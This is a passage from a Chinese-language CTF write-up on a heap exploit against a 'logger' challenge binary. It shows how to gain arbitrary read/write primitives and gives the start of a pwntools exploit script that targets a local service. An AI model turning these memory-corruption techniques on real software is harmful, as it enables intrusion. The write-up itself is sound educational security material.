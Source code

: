 執行完以上步驟，此時的 `logs[0]` 所指向的內容如下圖
![](https://i.imgur.com/aplCyuz.png)

6. edit 且 idx 設為 7 

到了這步，我們已經可以控制 `0x0000555555559900` 的內容了，如此一來便能夠實現寫入任意長度任意內容。
![](https://i.imgur.com/wvZlhft.png)

7. edit 且 idx 設為 0 寫入內容為 AAAAAAAA

![](https://i.imgur.com/zsuXfBH.png)

### 製作出 read/write primitives
以下為 pseudo code
read primitives
```python
# 第一個參數為 idx，後面為寫入的內容，addr 為目標地址
my_edit(7, p64(addr) + p64(0) + b"a" * 7)
my_show(0)
```
write primitives
```python
# 第一個參數為 idx，後面為寫入的內容，addr 為目標地址
my_edit(7, p64(addr) + p64(0) + b"a" * 7)
my_edit(0, data)
```
有了 read/write primitives 剩下就是一些常規的 pwn 操作了，就不多做贅述了。

## exploit
```python
import re
from pwn import *
import binascii
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

heap_base = 0
libc_base = 0
stack_addr = 0

local = 0
if local:
    p = process("./logger")
else:
    p = remote('localhost', 45125)

def init(l, n):
    p.sendlineafter(b"len: ", l)
    p.sendafter(b"name: ", n)


def my_new(idx, l, msg):
    p.sendlineafter(b"> ", b'1')
    p.sendlineafter(b"idx: ", idx)
    p.sendlineafter(b"len: ", l)
    if msg:
        p.sendlineafter(b"msg: ", msg)

def my_edit(idx, msg):
    p.sendlineafter(b"> ", b'4')
    p.sendlineafter(b"idx: ", idx)
    if msg:
        p.sendlineafter(b"msg: ", msg)

```